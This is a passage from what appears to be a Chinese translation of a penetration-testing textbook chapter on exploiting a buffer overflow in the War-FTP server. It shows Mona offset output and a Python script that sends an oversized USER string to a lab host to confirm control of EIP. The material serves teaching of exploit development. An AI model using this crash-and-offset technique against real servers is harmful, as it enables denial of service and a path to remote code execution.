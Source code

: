 Mona 在内存中找到了循环模式的实例。命令的输出被写入到*C:\logs\war-ftpd\findmsp.txt*中。部分输出如下所示。

```
EIP contains normal pattern : 0x32714131 (offset 485)
ESP (0x00affd48) points at offset 493 in normal pattern (length 607)
EDI (0x00affe48) points at offset 749 in normal pattern (length 351)
EBP (0x00affda0) points at offset 581 in normal pattern (length 519)
```

### 验证偏移量

根据 Mona 的分析，我们的返回地址覆盖发生在攻击字符串的 485 字节位置。我们可以通过示例 17-4 来验证这一点。

示例 17-4. 验证 EIP 偏移

```
  root@kali:~# **cat ftpexploit**
  #!/usr/bin/python
  import socket
❶ buffer = "A" * 485 + "B" * 4 + "C" * 611
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  connect=s.connect(('192.168.20.10',21))
  response = s.recv(1024)
  print response
  s.send('USER ' + buffer  + '\r\n')
  response = s.recv(1024)
  print response
  s.send('PASS PASSWORD\r\n')
  s.close()
```

现在我们将创建一个攻击字符串，包含 485 个*A*、4 个*B*和 611 个*C*，如示例 17-4 中的❶所示。将新的字符串放入后，如果程序崩溃时 EIP 包含`42424242`，我们就知道找到了正确的返回地址四个字节。（记得在重新运行攻击前先在 Immunity Debugger 中重启 War-FTP。）现在，检查 EIP，如图 17-9 所示。

正如预期的那样，War-FTP 再次崩溃，这次 EIP 中是`42424242`。这个结果确认了我们找到了攻击字符串中返回地址的位置。接下来，我们需要找到一个位置来重定向执行并利用这个缓冲区溢出漏洞。

![War-FTP 崩溃，EIP 填充了 B](img/httpatomoreillycomsourcenostarchimages2030526.png.jpg) 图 17-9. War-FTP 崩溃，EIP 填充了 B
